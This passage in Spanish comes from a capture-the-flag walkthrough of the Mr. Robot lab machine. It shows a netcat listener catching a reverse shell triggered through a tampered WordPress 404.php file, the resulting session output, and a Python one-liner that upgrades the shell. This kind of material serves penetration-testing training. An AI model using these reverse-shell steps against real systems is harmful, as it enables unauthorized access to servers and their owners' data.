 ## vi

**Ejecutar la Shell Reversa**

Volvemos a la terminal y activamos la escucha en el puerto especificado (4646). Para lo que ejecutamos el siguiente comando en Kali Linux:
```sh
nc -lvnp 4646
```
Después, accedemos a la URL del archivo `404.php` en el servidor de WordPress para activar la shell. 
Podemos aprovechar la información conseguida con `wp-scan`, o la info obtenida del codigo fuente de la página obtenida en el navegador.
Si ademas conoces la estructura de archivos de Wordpress encontrar la dirección será sencillo.

`http://10.10.10.9/wp-content/themes/twentyfifteen/404.php`

Una vez ejecutado, obtendremos una sesión de shell reversa en nuestro sistema.
```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4646
listening on [any] 4646 ...
connect to [10.10.10.3] from (UNKNOWN) [10.10.10.9] 37040
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 20:54:26 up 1 day,  4:48,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```
(el símbolo `$` indica que tenemos la posibilidad de ejecutar desde aquí cualquier comando que se ejecutará en la máquina Mr.Robot)

## vii

**Mejorando la interactividad de la Shell**

Para mejorar la interactividad de la shell, podemos utilizar Python (un recurso bastante habitual en servidores y entornos de desarrollo de aplicaciones), si está disponible en el sistema objetivo:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Esto nos proporciona una shell más funcional.

```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

## viii
**Exploración del sistema vulnerable y escalada de privilegios**
Podemos empezar por listar los archivos y directorios del objetivo. Recuerda que un uso adecuado del comando `ls` puede proporcionar mucha información útil.
